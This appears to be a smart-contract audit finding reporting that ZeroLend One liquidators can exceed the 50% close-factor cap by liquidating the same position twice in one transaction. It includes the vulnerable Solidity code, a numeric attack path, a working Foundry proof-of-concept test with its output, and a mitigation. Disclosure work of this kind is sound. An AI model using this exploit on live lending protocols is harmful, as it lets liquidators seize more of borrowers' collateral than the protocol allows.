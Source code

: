 Shiny Seaweed Mongoose

High

# The liquidator can pay more than 50% of the debt and seize more collateral even when the health factor is greater than 0.95.

### Summary

Liquidators can only liquidate 50% of the debt when the health factor is greater or equal to 0.95, 
this is true but a malicious liquidator can pay more than 50% of the debt and in turn, seize more 
collateral and liquidation fee, by liquidating the position twice. 

### Root Cause

The root cause here is that liquidators are allowed to partially close positions in such a way that the position still has a health factor that is below 1, so the position is still liquidatable. So the liquidator can close the position twice to pay more debt and earn more rewards.

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L259

```js
  function _calculateDebt(
    DataTypes.ExecuteLiquidationCallParams memory params,
    uint256 healthFactor,
    mapping(address => mapping(bytes32 => DataTypes.PositionBalance)) storage balances
  ) internal view returns (uint256, uint256) {
    uint256 userDebt = balances[params.debtAsset][params.position].debtShares;

@-> uint256 closeFactor = healthFactor > CLOSE_FACTOR_HF_THRESHOLD ? DEFAULT_LIQUIDATION_CLOSE_FACTOR : MAX_LIQUIDATION_CLOSE_FACTOR;

    uint256 maxLiquidatableDebt = userDebt.percentMul(closeFactor);

    uint256 actualDebtToLiquidate = params.debtToCover > maxLiquidatableDebt ? maxLiquidatableDebt : params.debtToCover;

    return (userDebt, actualDebtToLiquidate);
  }
```


### Internal pre-conditions

Position that has an health factor of 0.95 or greater but less than 1.

### External pre-conditions

_No response_

### Attack Path

Collateral Token A (TA) = 10k USD
LTV = 0.8
Liquidation Bonus = 1.05
TA = TB i.e the two tokens have the same value


1. Alice borrowed Token B (TB) 8k USD
2. The value of her collateral goes down to 9.6k USD so the health factor of her position is now 0.96.
3. TA = 0.96 * TB
3. Bob the liquator can only pay 4k USD of the debt token (TB) since Health Factor is above 0.95, but he has a way to bypass that.
4. In a single transaction the liquidator is going to liquidate the position twice.
    - First liquidation they pay 1.5k USD of the debt and takes (1500 * 1.05) / 0.96 = 1640 USD worth of collateral. 
    - So the remaining debt after first liquidation is 6.5k USD(TB) and the remaining collateral is 7960 USD (TA)
    - The new Health Factor will be 0.978, this means the position is still liquidatable.
    - The second liquidation will pay 3.25k of the debt.

In total the liquidator paid 4.75k of the debt which is about 59% of the debt instead of 4k (50%), so the liquidator has earn more fees and seized more collateral than they should.


### Impact

- Borrowers will lose more than 50% of their assets during liquidation even when their health factor is above 0.95.
- Liquidators will game the system to earn more.


### PoC

Add the following test to the `forge/core/pool` folder and run the test.

This is the output.

Before Liquidation
HF  : 950285714285714286
Debt: 140000000000
After First Liquidation
HF  : 994400000000000000
Debt: 100000000000
After Second Liquidation
HF  : 1148800000000000000
Debt: 50000000000

```js
// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.19;

import './PoolSetup.sol';

import {ReserveConfiguration} from './../../../../contracts/core/pool/configuration/ReserveConfiguration.sol';

import {UserConfiguration} from './../../../../contracts/core/pool/configuration/UserConfiguration.sol';

contract LiquidationLLPOC is PoolSetup {
  using UserConfiguration for DataTypes.UserConfigurationMap;
  using ReserveConfiguration for DataTypes.ReserveConfigurationMap;

  address alice = makeAddr("alice");
  address bob = makeAddr("bob");
  address liquidator = makeAddr("liquidator");

  uint256 mintAmountA = 500 ether;
  uint256 mintAmountB = 2000 ether;
  uint256 supplyAmountA = 500 ether;
  uint256 supplyAmountB = 750 ether;
  uint256 borrowAmountB = 700 ether;

  function setUp() public {
    _setUpPool();
    pos = keccak256(abi.encodePacked(alice, 'index', uint256(0)));
  }

  function testLiquidationSimple() external {

    oracleA.updateAnswer(5e10);

    _mintAndApprove(alice, tokenA, mintAmountA, address(pool)); // alice 500 tokenA

    _mintAndApprove(bob, tokenB, mintAmountB, address(pool)); // bob 2000 tokenB

    _mintAndApprove(liquidator, tokenB, mintAmountB, address(pool)); // max 2000 tokenB

    vm.startPrank(alice);
    pool.supplySimple(address(tokenA), alice, supplyAmountA, 0); // 500 tokenA alice supply
    vm.stopPrank();

    vm.startPrank(bob);
    pool.supplySimple(address(tokenB), bob, supplyAmountB, 0); // 750 tokenB bob supply
    vm.stopPrank();

    vm.startPrank(alice);
    pool.borrowSimple(address(tokenB), alice, borrowAmountB, 0); // 700 tokenB alice borrow
    vm.stopPrank();

    oracleA.updateAnswer(3.326e8);

    (,uint debt0,,,,uint healthFactor0) = pool.getUserAccountData(alice, 0);

    vm.prank(liquidator);
    pool.liquidateSimple(address(tokenA), address(tokenB), pos, 200 ether);

    (,uint debt1,,,, uint healthFactor1) = pool.getUserAccountData(alice, 0);

    vm.prank(liquidator);
    pool.liquidateSimple(address(tokenA), address(tokenB), pos, 450 ether);

    (,uint debt2,,,, uint healthFactor2) = pool.getUserAccountData(alice, 0);

    console.log("Before Liquidation");
    console.log("HF  :", healthFactor0);
    console.log("Debt:", debt0);

    console.log("After First Liquidation");
    console.log("HF  :", healthFactor1);
    console.log("Debt:", debt1);

    console.log("After Second Liquidation");
    console.log("HF  :", healthFactor2);
    console.log("Debt:", debt2);

  }

}

```

### Mitigation

For positions that have a health factor of 0.95 or greater the liquidation should at least take the health factor to 1.